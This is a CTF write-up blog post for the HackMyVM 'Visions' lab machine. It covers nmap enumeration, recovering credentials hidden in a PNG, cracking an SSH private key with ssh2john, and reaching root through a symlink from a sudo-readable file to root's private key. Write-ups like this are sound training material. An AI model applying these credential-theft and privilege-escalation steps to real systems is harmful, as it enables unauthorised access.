 ```yaml
---
layout: post
author: maxin
title:  "Visions"
date:   2022-01-01 09:08:02 PM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Visions)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Tue Dec 28 15:39:17 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.213
Nmap scan report for 192.168.0.213
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 85:d0:93:ff:b6:be:e8:48:a9:2c:86:4c:b6:84:1f:85 (RSA)
|   256 5d:fb:77:a5:d3:34:4c:46:96:b6:28:a2:6b:9f:74:de (ECDSA)
|_  256 76:3a:c5:88:89:f2:ab:82:05:80:80:f9:6c:3b:20:9d (ED25519)
80/tcp open  http    nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 15:39:25 2021 -- 1 IP address (1 host up) scanned in 7.74 seconds
{% endhighlight  %}

## Port 80

Source-code of the page has a comment

{% highlight text  %}
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia 
{% endhighlight  %}

The final of the page

{% highlight text  %}
<img src="white.png">
{% endhighlight  %}

We can wget this page and analyse with gimp

{% highlight bash  %}
wget $IP/white.png
{% endhighlight  %}

Change the Color Curves we can see a credencial

![Untitled](/images/visions/gimp.png)

{% highlight text  %}
sophia:seemstobeimpossible
{% endhighlight  %}

## User

{% highlight bash  %}
ssh sophia@$IP 
{% endhighlight  %}

{% highlight bash  %}
sudo -l

User sophia may run the following commands on visions:
    (ALL : ALL) NOPASSWD: /usr/bin/cat /home/isabella/.invisible
{% endhighlight  %}

Getting the .invisible file we can see it’s a private key

Crack the private key using ssh2john

{% highlight bash  %}
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
password = invisible
{% endhighlight  %}

Make a ssh to isabella user using this private key

## Root

Delete the .invisible file and create a symbolic link to root’s private key

![Untitled](/images/visions/root1.png)

And with sophia cat the .invisible file

![Untitled](/images/visions/root2.png)

Root id_rsa